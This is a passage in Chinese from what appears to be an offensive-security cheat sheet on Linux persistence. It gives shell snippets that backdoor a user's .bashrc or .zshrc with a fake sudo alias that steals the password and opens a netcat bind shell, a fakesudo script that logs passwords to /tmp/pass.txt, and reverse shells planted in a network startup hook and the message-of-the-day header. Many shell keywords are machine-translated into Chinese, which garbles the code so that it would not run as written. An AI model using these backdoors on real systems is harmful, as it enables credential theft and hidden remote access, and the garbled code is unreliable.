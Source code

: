 ## 后门化用户的bash_rc

(FR/EN版本)

```bash
TMPNAME2=".systemd-private-b21245afee3b3274d4b2e2-systemd-timesyncd.service-IgCBE0"
cat << EOF > /tmp/$TMPNAME2
别名sudo='locale=$(locale | grep LANG | cut -d= -f2 | cut -d_ -f1);如果 [ $locale = "zh_CN" ]; 那么 echo -n "[sudo] 用户 $USER 的密码: "; fi;如果 [ $locale = "fr" ]; 那么 echo -n "[sudo] 用户名 $USER 的密码: "; fi;读取 -s pwd; 输出; 取消别名sudo; echo "$pwd" | /usr/bin/sudo -S nohup nc -lvp 1234 -e /bin/bash > /dev/null &
EOF
如果 [ -f ~/.bashrc ]; 那么
将 /tmp/$TMPNAME2 的内容附加到 ~/.bashrc
结束如果
如果 [ -f ~/.zshrc ]; 那么
将 /tmp/$TMPNAME2 的内容附加到 ~/.zshrc
结束如果
删除 /tmp/$TMPNAME2
```

或者在其.bashrc文件中添加以下行。

```powershell
$ chmod u+x ~/.hidden/fakesudo
$ echo "alias sudo=~/.hidden/fakesudo" >> ~/.bashrc
```

并创建`fakesudo`脚本。

```powershell
读取 -sp "[sudo] 用户 $USER 的密码: " sudopass
输出 ""
睡眠 2
输出 "对不起，请重试。"
输出 $sudopass >> /tmp/pass.txt

/usr/bin/sudo $@
```

## 后门化启动服务

* 编辑 `/etc/network/if-up.d/upstart` 文件

  ```bash
  RSHELL="ncat $LMTHD $LHOST $LPORT -e "/bin/bash -c id;/bin/bash" 2>/dev/null"
  sed -i -e "4i $RSHELL" /etc/network/if-up.d/upstart
  ```

## 后门化每日消息

* 编辑 `/etc/update-motd.d/00-header` 文件

  ```bash
  输出 'bash -c "bash -i >& /dev/tcp/10.10.10.10/4444 0>&1"' >> /etc/update-motd.d/00-header
  ```
